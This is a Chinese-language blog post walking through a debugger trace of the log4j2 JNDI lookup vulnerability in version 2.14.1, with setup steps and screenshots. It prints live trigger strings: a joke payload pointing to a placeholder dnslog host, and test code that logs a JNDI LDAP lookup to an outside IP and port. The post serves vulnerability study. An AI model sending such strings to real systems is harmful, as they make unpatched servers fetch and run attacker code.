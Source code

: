 ```yaml
---
title: log4j2 jndi 漏洞学习和调试
author: ch3n9w
typora-root-url: ../
date: 2021-12-11 14:56:51
categories:
  - 安全研究
---
```


> 明天安全圈校招面试: 
> 面试官: 请说说你会什么技能?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 请说说你最近关注过的漏洞?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 你平时有动手调试过吗?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 我：这dnslog是不是卡了 这面试官怎么还没rce
<!--more-->

## 环境搭建

新建maven项目, pom.xml写入
```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```
1. 在官网 https://archive.apache.org/dist/logging/log4j/ 下载log4j然后在project structure中导入

![](2021-12-11-16-16-25.png)

2. 下载低版本java8 https://repo.huaweicloud.com/java/jdk/ 我下载的是8u181,将其作为java运行环境

![](2021-12-11-16-24-14.png)

写测试代码

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Main {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args){
        logger.error("${jndi:ldap://39.105.176.37:1389/smzifq}");
    }
}
```

## 漏洞调试

调试进入
![](2021-12-11-15-37-32.png)


![image-20211211152434057](image-20211211152434057.png)


调试到
![image-20211211152611862](image-20211211152611862.png)



然后调试到`MessagePatternConverter#format`方法, 看到这里会试图匹配`${`字符.并将payload字符串解析到变量value中去.

![image-20211211152039629](image-20211211152039629.png)


步进replace函数, 再步进substitute函数
![image-20211211152218136](image-20211211152218136.png)

进入下一个substitute中会看到它会匹配结尾的`}`
![](2021-12-11-15-56-47.png)


再往下就可以看到`resolveVariable`方法被调用, 里面调用了`lookup`方法
![](2021-12-11-16-01-45.png)

![image-20211211152245317](image-20211211152245317.png)

在`lookup`方法中,会试图寻找`:`,并将`:`前面的部分作为prefix, 随后根据prefix来寻找类

![](2021-12-11-16-06-13.png)

可以看到这里规定了不同的prefix对应的类

![image-20211211150105597](image-20211211150105597.png)


使用的Jndi,所以使用的是`JndiLookup`类,调用了`JndiLookup#lookup`方法,并将`:`后面的部分作为参数传入.

![image-20211211150131696](image-20211211150131696.png)

最后调用到了`javax.naming.InitialContext#lookup`方法,server端收到请求
![](2021-12-11-16-11-46.png)

![](2021-12-11-16-13-38.png)

## 漏洞利用

普通的jndi注入就可以了

## 参考

https://www.anquanke.com/post/id/262668#h3-5
